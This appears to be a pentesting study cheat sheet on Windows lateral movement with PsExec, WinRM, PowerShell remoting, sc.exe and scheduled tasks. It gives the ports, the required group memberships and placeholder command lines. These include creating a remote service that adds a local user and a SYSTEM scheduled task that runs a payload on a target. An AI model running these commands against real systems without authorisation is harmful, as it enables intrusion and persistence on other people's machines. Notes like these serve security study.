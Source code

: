# PSEXEC (SYSINTERNALS)

## Ports: 445/TCP 9SMB) 

## Group Memberships: Administrators

## How does it work?

#### 1) Connect to Admin$ share and upload a service binary

#### 2) Connect to the service control manager to create and run a service named psexecsvc and associate the service binary with C:\Windows\psexecsvc.exe

#### 3) Create some named pipes to handle stdin/stdout/stderr 

### Example: 

#### 

    psexec64.exe \\MACHINE_IP -u Administrator -p PASSWORD -i cmd.exe

# WINRM

## Ports: 5985/TCP (WinRM HTTP), 5986/TCP (WinRM HTTPS)

## Group Memberships: Remote Managenemt Users

#### 

    winrs.exe -u:Administrator -p PASSWORD -r:TARGET cmd

# POWERSHELL

## Steps:

#### 1) 

    $username= 'Administrator';

#### 2) 

    $password= 'PASSWORD';

#### 3) 

    $securepassword = ConvertTo-SecureString $password -AsPlaintext -Force;

#### 4) 

    $credential = New-Object System.Management.Automation.PSCredential $username, $securepassword;

#### 

    Enter-PSSession -Computername TARGET -Credential $credential

#### 

    Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}

# SC

## Ports: 135/TCP, 49152-65535/TCP (DCE/RPC) 445/TCP (RPC over SMB named pipes) 139/TCP (RPC over SMB named pipes)

## Group Memberships: Administrators

#### 1) 

    sc.exe \\TARGET create SERVICE binPath= "net user USER PASS /add" start= auto

#### 2) 

    sc.exe \\TARGET start SERVICE

#### 3) 

    sc.exe \\TARGET stop SERVICE

#### 4) 

    sc.exe \\TARGET delete SERVICE

# SCHEDULED TASKS REMOTE CREATION

#### 1) 

    schtasks /s TARGET /ru "SYSTEM" /create /tn "task" /tr "COMMAND/PAYLOAD TO EXECUTE" /sc ONCE /sd 01/01/1970 /st 00:00:00

#### 2) 

    schtasks /s TARGET /run /tn ""task"

#### 3) 

    schtasks /s TARGET /tn "task" /DELETE /F


